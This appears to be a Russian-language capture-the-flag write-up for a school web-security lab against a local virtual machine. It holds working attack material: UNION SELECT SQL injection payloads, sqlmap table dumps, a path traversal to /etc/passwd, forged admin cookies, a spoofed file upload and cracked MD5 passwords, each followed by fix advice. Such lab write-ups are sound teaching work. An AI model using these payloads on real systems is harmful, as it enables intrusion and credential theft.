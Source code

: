 | [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|

#Защита проекта

Запускаем ВМ, получаем на экране IP адрес запущенного сервера. 

<img width="1200" alt="Screen Shot 2022-11-11 at 11 16 21" src="https://user-images.githubusercontent.com/84193980/201297810-9f5e8917-2f55-4ee0-96ad-2d347395af7f.png">

На Маке в браузере вводим этот адрес:

<img width="1276" alt="Screen Shot 2022-11-11 at 11 23 36" src="https://user-images.githubusercontent.com/84193980/201297804-96514ae7-6e1f-46de-b987-7e2d2c776cee.png">

<details><summary>01. Brute force данных для входа</summary>

| Найдено на странице | http://192.168.56.3/?page=signin |
|-|-|

[The main source of information](https://owasp.org)

<details><summary>Что такое `Brute force` и как обнаружено</summary>
  
![44-BruteForce](https://user-images.githubusercontent.com/84193980/201331815-afabace6-0df6-4de6-83cf-549b7577436b.jpeg)

`Brute force` использует метод проб и ошибок, чтобы угадать данные для входа, ключи шифрования или найти скрытую веб-страницу. Хакеры перебирают все возможные комбинации, надеясь угадать правильно.

Это старый метод атаки, но он по-прежнему эффективен и популярен среди хакеров. Потому что в зависимости от длины и сложности пароля его взлом может занять от нескольких секунд до многих лет.

## Как обнаружено ##

На вышеуказанной странице мы можем ввести логин и пароль. 
  
 <img width="1169" alt="Screen Shot 2022-11-11 at 14 36 53" src="https://user-images.githubusercontent.com/84193980/201332789-dce4b467-d603-40db-897b-82bceeffb68f.png">
 
Когда мы вводим неправильный пароль, мы видим, что веб-страница перенаправляет на следующую страницу, на которой есть очень специфическое изображение images/WrongAnswer.gif:

<img width="1904" alt="Screen Shot 2022-11-11 at 14 35 05" src="https://user-images.githubusercontent.com/84193980/201332820-9375ec69-2e0b-4a86-b11c-2f21fc528212.png">
 
Мы можем использовать это для `Brute force` процесса входа в систему.

Для этого из [OWASP SecLists](https://github.com/danielmiessler/SecLists) используем наиболее часто используемые [имена пользователей](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) и [паролей](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

Используя простой скрипт, мы можем попробовать каждую комбинацию наиболее часто используемых паролей и имен пользователей, и если мы не видим изображение «WrongAnswer.gif» на экране, то это означает, что мы успешно вошли в систему!

В папке Ressources выполнить следующую команду, по запросу ввести 192.168.56.3 (можно просто Enter):
```
python3 bf_login.py
```

</details>

Брутфорсом получены следующие пароли:

<img width="581" alt="Screen Shot 2022-11-13 at 07 06 55" src="https://user-images.githubusercontent.com/84193980/201506871-5f672d26-6b82-41d6-813d-01639bbe05ff.png">

Заходим по адресу: http://192.168.56.3/?page=signin, вводим логин и пароль. Наслаждаемся!

### Как исправить:
- Используйте более надежное имя пользователя и пароль
- Brute force detection tools
- Captcha
- Анализ и блокировка поступающих запросов:
	- Извлечение необходимых для принятия решений данных (IP, URL, ARGS, BODY);
	- Фильтрация полученных данных с исключением нецелевых URI для уменьшения количества ложных срабатываний;
	- Выбор запросов с одного адреса на конкретный URI по мере их близости или запросов со всех адресов на конкретный URI (для выявления распределенных атак методом перебора) в рамках определенного временного окна;
	- Блокирование источника(ов) атаки при превышении пороговых значений.

----

</details>

<details><summary>02. Атака с внедрением SQL на странице поиска пользователя</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=member |
|-|-|

[SQL injection](https://www.owasp.org/index.php/SQL_Injection)

<details><summary>Что такое `Атака с внедрением SQL` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- Метод 1. С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">
	
	- Выведем дамп таблицы users:
	```
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
	```
	<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

		Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 
		key: 5ff9d0165b4f92b14994e5c685cdce28 
		oter keys:
		2b3366bcfd44f540e630d4dc2b9b06d9
		60e9032c586fb422e2c16dee6286cf10 (oktoberfest)
		e083b24a01c483437bcf4a9eea7c1b4d 

- Метод 2. Через поле ввода страницы сайта.

	- Если оставить поле ввода пустым и нажать Enter, то мы получим:
	```
	You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
	```

	Значит, используется MariaDB

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы users: user_id, first_name, last_name, town, ountry, planet, Commentaire, countersign

	Что бы посмотреть все данные пользователей:
	```
	1 OR 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
	```
	<img width="922" alt="Screen Shot 2022-11-12 at 16 59 20" src="https://user-images.githubusercontent.com/84193980/201477846-0f12c5e8-c33f-41dc-a94e-1755141cab9d.png">

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	chmod 777 get_page-user.sh
	./get_page-user.sh
	```
	<img width="1560" alt="Screen Shot 2022-11-12 at 16 24 55" src="https://user-images.githubusercontent.com/84193980/201477797-c91bba96-6d18-4aab-81f4-6d212cff7c24.png">

- Нас интересует пользователь, в Surname которого указано "Decrypt this password"

</details>

Полученный ключ: 5ff9d0165b4f92b14994e5c685cdce28

Нам надо сделать: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 

Вспомним данные, полученные ранее:

<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

MD5 hash oktoberfest это 60e9032c586fb422e2c16dee6286cf10

По аналогии [Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28): FortyTwo

lower all the char: fortytwo

[sh256](https://crypt-online.ru/crypts/sha256/): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>03. Атака с внедрением SQL на странице поиска картинки</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=searchimg |
|-|-|

<details><summary>Что такое `Атака с внедрением SQL на странице поиска картинки` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">

	Нас интересует таблица list_images

- Через поле ввода страницы сайта.

	Ввести в поле ввода:
	```
	1 OR 1=1 UNION SELECT NULL, NULL--
	```

	Значит, имеется 2 колонки

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы list_images: id, url, title, comment

	Что бы посмотреть все данные всех картинок:
	```
	1 OR 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
	```

	<img width="1080" alt="Screen Shot 2022-11-13 at 08 45 05" src="https://user-images.githubusercontent.com/84193980/201508206-c0769387-7568-41ea-8410-47080f3b4df4.png">

	В данных последней картинки находим:
		Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	./get_page-pic.sh
	```
	
	<img width="1011" alt="Screen Shot 2022-11-13 at 08 53 05" src="https://user-images.githubusercontent.com/84193980/201508219-a9de4b5f-89bd-49b0-bb29-21a4d41a4d54.png">

- Нас интересует картинка, у которой "Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

</details>

ключ: 1928e8083cf461a51303633093573c46

По аналогии с предыдущей инъекцией:

[Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46): albatroz

lower all the char: albatroz

[sh256](https://crypt-online.ru/crypts/sha256/): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>04. Непроверенные переадресации и пересылки</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Непроверенные переадресации и пересылки` и как обнаружено</summary>

https://habr.com/ru/company/otus/blog/511428/

Одной из наиболее распространенных и тем не менее игнорируемых веб-разработчиками уязвимостей является Open Redirect (также известная как «Непроверенные переадресации и пересылки»). Веб-сайт считается уязвимым для Open Redirect, если значения параметра (часть URL-адреса после «?») в HTTP GET-запросе позволяет перенаправить пользователя на новый сайт без проверки целевого сайта. В зависимости от архитектуры уязвимого сайта, перенаправление может произойти после определённых действий, таких как вход в систему, а иногда это может произойти мгновенно при загрузке страницы.

Пример уязвимой ссылки выглядит примерно так: www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext

В этом примере параметр «RelayState» указывает куда нужно перенаправить пользователя после успешного входа в систему (в нашем примере это example.com/next). Если сайт не проверяет значение параметра «RelayState» на предмет легитимности и безопасности, то злоумышленник может воспользоваться этим параметром, чтобы перенаправить жертву на фейковую страницу, созданную самим злоумышленником: www.example.com/login.html?RelayState=http%3A%2F%2FEvilWebsite.com

Перенаправление на разные сайты социальных сетей в нижней части веб-сайта не подтверждено. Открытые перенаправления не являются критическими непосредственно для самого сайта и не позволяют злоумышленнику украсть данные, принадлежащие владельцу сайта, но представляют большую опасность для пользователя сайта. Жертва может не заметить, что в середине длинного URL-адреса есть параметры, которые манипулируют и изменяют конечную точку.

## Как обнаружено ##

В Chrome в нижней части экрана (footer, где значок Facebook) нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес (добавить что-либо)

Теперь, нажав на значок Facebook получаем страницу с ключом

</details>

<img width="963" alt="Screen Shot 2022-11-13 at 10 07 09" src="https://user-images.githubusercontent.com/84193980/201510524-675934ca-98fa-4e5c-81ab-9fec8749a526.png">

### Как исправить:
- Лучший способ избежать уязвимости Open Redirect – это избегать перенаправления по параметру, зависящему от пользователя или приходящего через GET-запрос. Если перенаправление неизбежно, с ним можно совладать, проверив конечный сайт и очистив его репутацию с помощью белого списка подтвержденных URL-адресов.

----

</details>

<details><summary>05. Незащищенная электронная почта для восстановления</summary>

| Найдено на странице | http://192.168.56.3/?page=recover |
|-|-|

<details><summary>Что такое `Незащищенная электронная почта для восстановления` и как обнаружено</summary>

Если злоумышленник изменит адрес электронной почты в этом поле, тогда забытый пароль (или процедура восстановления) может быть отправлен на его собственный адрес электронной почты. Это может позволить ему восстанавливать пароли от пользователей веб-сайта.

## Как обнаружено ##

В Chrome на вышеуказанной странице в районе кнопки Submit нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес электронной почты (добавить что-либо)
	
<img width="1397" alt="Screen Shot 2022-11-13 at 13 45 48" src="https://user-images.githubusercontent.com/84193980/201518128-aa9869e2-617a-44de-8896-3c7aadda86db.png">

Теперь, нажав на кнопку Submit получаем страницу с флагом
	
<img width="906" alt="Screen Shot 2022-11-13 at 13 43 03" src="https://user-images.githubusercontent.com/84193980/201518137-6534e19e-e753-4935-87a2-4b3d270593a6.png">

</details>

THE FLAG IS : 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Как исправить:
- Вместо того, чтобы отправлять запрос на адрес электронной почты администратора, мы можем просто использовать поле ввода с адресом электронной почты пользователя.

----

</details>

<details><summary>06. Незащищенная страница опроса</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=survey |
|-|-|

<details><summary>Что такое `Незащищенная страница опроса` и как обнаружено</summary>

У пользователя становится возможным "накрутка голосования"

## Как обнаружено ##

На вышеуказанной странице в районе первой ячейки Grade нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить значение, отличное от 1 (добавить что-либо)
	
<img width="1692" alt="Screen Shot 2022-11-13 at 14 12 34" src="https://user-images.githubusercontent.com/84193980/201519332-230127a4-5836-425c-bd77-5bf7a72ad2e1.png">

Теперь при выборе в таблице изменённого значения получим флаг:
	
<img width="891" alt="Screen Shot 2022-11-13 at 14 11 47" src="https://user-images.githubusercontent.com/84193980/201519329-6761f8be-b798-45d5-a535-170a7a7faef4.png">

</details>

THE FLAG IS 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Как исправить:
- Стратегии проверки данных (принятие заведомо хороших, отклонение заведомо плохих, санация)

----

</details>

<details><summary>07. Неограниченная загрузка файлов</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=upload |
|-|-|

<details><summary>Что такое `Неограниченная загрузка файлов` и как обнаружено</summary>

[Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

Загруженные файлы представляют значительный риск для приложений. Первым шагом во многих атаках является передача некоторого кода в атакуемую систему. Тогда атаке нужно только найти способ выполнить код. Использование загрузки файла помогает злоумышленнику выполнить первый шаг.

Последствия неограниченной загрузки файлов могут быть разными, включая полный захват системы, перегрузку файловой системы или базы данных, перенаправление атак на серверные системы, атаки на стороне клиента или простое искажение. Это зависит от того, что приложение делает с загруженным файлом и особенно от того, где он хранится.

## Как обнаружено ##

Если попытаться загрузить файл "php", то это не сработает. Когда мы загружаем файл php, наш браузер отправляет в заголовках HTTP «content-type», который является «application/octet-stream» для файла php и «image/jpeg» для файла jpeg.

Вышеуказанная страница заточена ТОЛЬКО для приёма изображений. НО! На этом сайте бэкенд не проверяет тип файла, поэтому при загрузке любого типа файла сайт примет его. В следующем скрипте мы делаем так, чтобы наш файл выглядел так, как будто мы отправляем изображение.

Перейти в теминале папку Ressources и там выполнить:
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@1.test;type=image/jpeg' http://192.168.56.3/index.php\?page\=upload\# | grep "flag"
```
<img width="1240" alt="Screen Shot 2022-11-13 at 12 57 05" src="https://user-images.githubusercontent.com/84193980/201516949-7816f45b-e148-4925-93a5-e3e34cf495a3.png">

</details>

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Как исправить:
- Вы должны перепроверить тип файла и никогда не доверять пользователю.

----

</details>

<details><summary>08. Небезопасные файлы cookie администратора</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Небезопасные файлы cookie администратора` и как обнаружено</summary>

Перехват сеанса (перехват файлов cookie) — это использование действительного компьютерного сеанса (сеансового ключа) для получения несанкционированного доступа к информации или услугам в компьютерной системе. В частности, он используется для обозначения кражи волшебного файла cookie, используемого для аутентификации пользователя на удаленном сервере.

### Что такое файлы cookie?

Файлы cookie — это файлы, которые веб-сайты записывают локально на ваш компьютер.
У них есть несколько применений: отслеживание клиентов, безопасная идентификация пользователя/администратора или запись пользовательских данных.
Эти данные передаются в конце заголовков HTTP в следующем виде:
Cookie: Cookie_name_1=cookie_value1; Cookie_name_2=cookie_value2 и т. д.

Как правило, многие сайты хранят файл cookie SESSID, который является переменной идентификации вашего сайта.
Файл cookie SESSID позволяет защитить аутентификацию
(сервер ведет локальную запись используемых сеансов SESSID и связанных с ними данных, таких как входы в систему).

## Как обнаружено ##

- Откройте браузер Chrome на компьютере.
- В правом верхнем углу экрана нажмите на значок с тремя точками Настройки (Settings).
- Выберите Конфиденциальность и безопасность (Privacy and security) -> Файлы cookie и другие данные сайтов (Cookies and other site data).
- Выберите See all cookies and site data
- Выберите свой сайт 192.168.56.3
	
<img width="693" alt="Screen Shot 2022-11-13 at 14 55 17" src="https://user-images.githubusercontent.com/84193980/201521836-743c6c84-ef7d-4c5f-8633-616879b4fcc1.png">

В указанном файле cookie есть поле 
	Content 68934a3e9455fa72420237eb05902327

[Конвертируем MD5 нашего поля](https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327): false

Попробуем получить MD5 hash of "true" и заменить значение этого поля в cookie

[MD5 hash "true"](https://md5.gromweb.com/?string=true): b326b5062b2f0e69046810717534cb09

Перейти в терминале в папку Ressources и выполнить

```
curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.56.3' -o flag.html
open flag.html
```

или

В папке Ressources (default address 192.168.56.3, можно просто Enter):
```
chmod 777 get_flag.sh
./get_flag.sh
```
	
<img width="481" alt="Screen Shot 2022-11-13 at 15 16 09" src="https://user-images.githubusercontent.com/84193980/201521860-2291d9fb-3de0-4c93-94cf-1c24371a3291.png">

</details>

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

### Как исправить:
- Никогда не доверяйте содержимому файлов cookie для конфиденциальных операций, не используйте алгоритм MD5 для шифрования данных и используйте более безопасный алгоритм, такой как bcrypt.

----

</details>

<details><summary>09. Обход каталога или обход пути</summary>

| Найдено на странице | http://192.168.56.3/?page=../../../../../../../etc/passwd |
|-|-|

<details><summary>Что такое `Обход каталога` и как обнаружено</summary>

Все веб-сайты построены одинаково, и все веб-сайты, работающие в UNIX, содержат папку: /etc/passwd

`/etc/passwd` — это текстовый файл, содержащий атрибуты каждого пользователя или учетной записи на компьютере под управлением Linux или другой Unix-подобной операционной системы.

Разрешения для `/etc/passwd` установлены по умолчанию, так что он может быть прочитан любым пользователем в системе.

## Как обнаружено ##

Мы попытаемся найти эту папку, поднявшись по древовидной структуре нашего веб-сайта, добавив «../» к запрошенному URL-адресу.

Добавив `/?page=../` к нашему URL-адресу и благодаря индексам, отображаемым на сайте при каждой попытке, нам удалось вернуться к файлу `/etc/passwd`.

В браузере:

<img width="906" alt="Screen Shot 2022-11-14 at 06 47 04" src="https://user-images.githubusercontent.com/84193980/201572544-32e5db20-ccd3-40e4-b5f0-a8370b7c81e3.png">

</details>

The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

### Как исправить:
- Чтобы защититься от этого типа недостатков, необходимо правильно настроить веб-сервер, чтобы пользователь не мог просматривать страницы, к которым у него не должно быть доступа.

----

</details>

<details><summary>10. Незащищенный htpasswd</summary>

| Найдено на странице | http://192.168.56.3/robots.txt |
|-|-|

<details><summary>Что такое `Незащищенный htpasswd` и как обнаружено</summary>

Файл `htpasswd` хранит имена пользователей и пароли для аутентификации пользователей HTTP.

## Как обнаружено ##

В браузере перейти

	http://192.168.56.3/robots.txt

Мы видим, что существует папка /whatever. Перейдём в неё:

	http://192.168.56.3/whatever

В этой папке есть доступ к файлу htpasswd. Скачаем этот файл. Внутри него только одна строчка:

	root:437394baff5aa33daa618be47b75cb49

Уже опробованным нами методом произведём:

[Reverse MD5 hash of 437394baff5aa33daa618be47b75cb49](https://md5.gromweb.com/?md5=437394baff5aa33daa618be47b75cb49) : qwerty123@

В браузере перейдём:

	http://192.168.56.3/admin/

и введём 

```
Username: root
Password: qwerty123@
```


</details>

The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

### Как исправить:
- Права доступа к файлу htpasswd должны предоставляться только администраторам, а не тем, кто просто добавляет «/что угодно» к домашнему URL-адресу.

----

</details>

<details><summary>11. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>12. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>13. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>14. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>


| [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|
